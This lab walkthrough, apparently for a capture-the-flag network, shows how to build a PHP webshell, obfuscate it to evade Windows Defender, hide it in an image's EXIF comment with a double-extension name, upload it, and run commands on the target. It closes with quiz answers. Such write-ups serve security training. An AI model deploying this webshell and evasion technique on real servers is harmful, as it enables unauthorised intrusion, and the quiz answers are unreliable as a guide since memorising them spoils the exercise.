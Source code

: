 Now that we've covered the basic terminology, let's get back to hacking this PC!

We have an upload point which we can use to upload PHP scripts. We now need to figure out how to make a PHP script that will bypass the antivirus software. Windows Defender is free and comes pre-installed with Windows Server, so let's assume that this is what is in use for the time being.  

The solution is this:  
We build a payload that does what we need it to do (preferably in a slightly less than common way), then we obfuscate it either manually or by using one of the many tools available online.

First up, let's build that payload:  

```
<?php       
$cmd = $_GET["wreath"];       
if(isset($cmd)){           
	echo "<pre>" . shell_exec($cmd) . "</pre>";
}
die();
?>
```

Here we check to see if a GET parameter called "wreath" has been set. If so, we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen.  

This is slightly longer than the classic PHP one-liner webshell (`<?php system($_GET["cmd"]);?>`) for two reasons:

1. If we're obfuscating it then it will become a one-liner anyway
2. Anything _different_ is good when it comes to AV evasion

We now need to obfuscate this payload.

There are a variety of measures we could take here, including but not limited to:

- Switching parts of the exploit around so that they're in an unusual order
- Encoding all of the strings so that they're not recognisable
- Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)


---

Manual obfuscation is very much a thing, but for the sake of simplicity, let's just use one of the available online tools. The tool linked [here](https://www.gaijin.at/en/tools/php-obfuscator) is recommended. When it comes to web obfuscation, these tools are generally used to make the code difficult for humans to read; however, by doing things like obfuscating variable/function names and encoding strings, they also prove effective against antivirus software.  

Stick the payload into the tool, then activate all the obfuscation options:![[bb2ef4375625.webp]]

Click the "Obfuscate Source Code" button, and we're left with this mess of PHP:  
`<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>`  

If you look closely you'll see that this is still very much the same payload as before; however, enough has changed that it _should_ fool Defender.

As this is getting passed into a bash command, we will need to escape the dollar signs to prevent them from being interpreted as bash variables. This means our final payload is as follows:  
`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

With an obfuscated payload, we can now finalise our exploit.

Once again, make a copy of an innocent image (ensuring you give it a name in the format of `shell-USERNAME.jpeg.php`), then use `exiftool` to embed the payload into the image:  
`exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-USERNAME.jpeg.php`


![[98a8bd99378c.webp]]

Upload your shell and attempt to access it!

If this worked then you should get an output similar to the following:

![[6b09145ae074.webp]]

Awesome! We have a shell.

We can now execute commands using the `wreath` GET parameter, e.g:  
`http://10.200.72.100/resources/uploads/shell-USERNAME.jpeg.php?wreath=systeminfo`

![[2920fdb4cd18.webp]]


---

> [!Question]
>1. What is the Host Name of the target?
>`WREATH-PC`
>2. What is our current username (include the domain in this)? 
>`wreath-pc\thomas`


**Next step: ** [[Compiling Netcat & Reverse Shell!]]

